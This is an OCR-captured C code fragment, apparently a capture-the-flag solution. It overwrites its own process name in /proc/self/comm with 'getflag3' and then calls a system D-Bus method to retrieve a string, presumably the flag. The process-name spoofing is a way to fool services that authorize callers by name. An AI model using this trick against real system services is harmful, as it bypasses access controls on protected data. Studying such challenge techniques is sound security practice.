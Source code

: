 ```c
  GVariant *result;

  int commfd=open("/proc/self/comm",O_RDWR);
  if(commfd<0){
    perror("open comm");
    exit(-1);
  }
  char* message="getflag3";
  ssize_t length=8;
  ssize_t written=0;
  while(written<length){
    ssize_t len = write(commfd,message+written,length-written);
    if(len<0){
      perror("write");
      exit(-1);
    }
    written+=len;
  }
  ftruncate(commfd,8);
  close(commfd);

  char path[1024];
  g_snprintf(path, sizeof(path), "/proc/self/comm");
  gchar *comm;
  gsize len;
  if (g_file_get_contents(path, &comm, &len, &error)) {
    g_print(comm);
  } else {
    g_printerr("Failed to read comm: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }

  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (!connection) {
    g_printerr("Failed to connect to the system bus: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }

  // 发送请求
  result = g_dbus_connection_call_sync(connection,
                                       DEST,
                                       OBJECT_PATH,
                                       INTERFACE,
                                       METHOD,
                                       NULL,
                                       NULL,
                                       G_DBUS_CALL_FLAGS_NONE,
                                       -1,
                                       NULL, &error);

  if (result) {
	gchar *str;
	g_variant_get (result, "(s)", &str);
    g_print(str);
    g_variant_unref(result);
  } else {
    g_printerr("Error calling D-Bus method %s: %s\n", METHOD, error->message);
    g_error_free(error);
  }

  g_object_unref(connection);
```